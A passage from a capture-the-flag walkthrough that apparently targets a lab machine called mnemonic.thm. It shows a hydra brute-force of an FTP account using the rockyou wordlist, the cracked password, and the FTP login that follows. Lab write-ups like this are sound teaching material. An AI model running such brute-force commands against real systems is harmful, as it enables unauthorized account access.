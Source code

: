 ~~~
kali@kali:/data/mnemonic/files$ cat backups/note.txt
@vill

James new ftp username: ftpuser
we have to work hard
~~~

This note discloses the existence of a FTP user: `ftpuser`.

Answer: `ftpuser`

# ftp password?

Let's use `hydra` to brute force the FTP password associated to the `ftpuser` account.

~~~
kali@kali:/data/mnemonic/files$ hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://mnemonic.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-30 16:25:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://mnemonic.thm:21/
[STATUS] 272.00 tries/min, 272 tries in 00:01h, 14344127 to do in 878:56h, 16 active
[STATUS] 270.67 tries/min, 812 tries in 00:03h, 14343587 to do in 883:14h, 16 active
[21][ftp] host: mnemonic.thm   login: ftpuser   password: love4ever
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-30 16:30:06
~~~

Answer: `love4ever`

# What is the ssh username?

We can now connect to the FTP service using the following credentials: `ftpuser:love4ever`. There are several directories, but only 1 of them (`data-4`) contains files: `id_rsa` and `not.txt`.

~~~
kali@kali:/data/mnemonic/files$ ftp mnemonic.thm
Connected to mnemonic.thm.
220 (vsFTPd 3.0.3)
Name (mnemonic.thm:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------   12 1003     1003         4096 Jul 14 18:22 .
drwx------   12 1003     1003         4096 Jul 14 18:22 ..
lrwxrwxrwx    1 1003     1003            9 Jul 14 18:22 .bash_history -> /dev/null
-rw-r--r--    1 1003     1003          220 Jul 13 21:10 .bash_logout
-rw-r--r--    1 1003     1003         3771 Jul 13 21:10 .bashrc
-rw-r--r--    1 1003     1003          807 Jul 13 21:10 .profile
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-1
drwxr-xr-x    2 0        0            4096 Jul 13 21:17 data-10
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-2
drwxr-xr-x    2 0        0            4096 Jul 13 21:16 data-3
drwxr-xr-x    4 0        0            4096 Jul 14 18:05 data-4
~~~